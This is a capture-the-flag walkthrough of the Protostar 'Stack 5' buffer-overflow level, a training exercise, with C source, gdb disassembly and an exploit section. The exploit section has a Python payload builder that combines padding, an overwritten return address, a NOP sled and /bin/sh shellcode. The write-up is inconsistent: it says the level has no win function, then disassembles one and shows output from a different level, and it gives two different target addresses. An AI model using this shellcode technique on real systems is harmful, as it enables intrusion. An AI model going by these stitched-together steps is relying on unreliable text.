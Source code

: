 ```yaml
---
title: Stack 5
sidebar_position: 6
custom_edit_url: null
---
```



> Stack5 is a standard buffer overflow, this time introducing shellcode.
> This level is at /opt/protostar/bin/stack5
> 
> **Hints**
> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this code there is no `win` function. In order to complete the challenge we have to obtain `root` priviledge.
For that, we need to use a shellcode that we can get from shell-storm.

The saved return address must be overwritten with the address of the shellcode.
```
		    |-------------------------|                                                       
entry esp --------> |     saved eip           | ====+
		    |     (return address)    |      |
                    |-------------------------|      |                                                     
new ebp ----------> |     saved ebp           |      |
		    |-------------------------|      |
		    |     shellcode [63]      |      |
		    |          .              |      |
		    |          .              |      |
		    |          .              |      |
		    |     shellcode [0]       | <----+
		    |-------------------------|
new esp ----------> |     i                   |
		    |-------------------------|
 		    |                         |
```
That was a generalized representation.

But first let's understand the binary using `gdb`.
```
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
Let's figure out where our buffer is located.
```
(gdb) p/s ($esp+0x10)
$1 = (void *) 0xbffff760
```
We can see that the buffer begins at  `0xbffff760`.

Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

So the 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0xbffff760` address in little-endian format.
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss + \x60\xf7\xff\xbf
```


## Exploit

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack5
code flow successfully changed
```



```python
import struct

padding = "A"*76
nops = "\x90"*150
eip = struct.pack("I",0xbffff7e0)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
payload = padding+eip+nops+shellcode
print payload
```
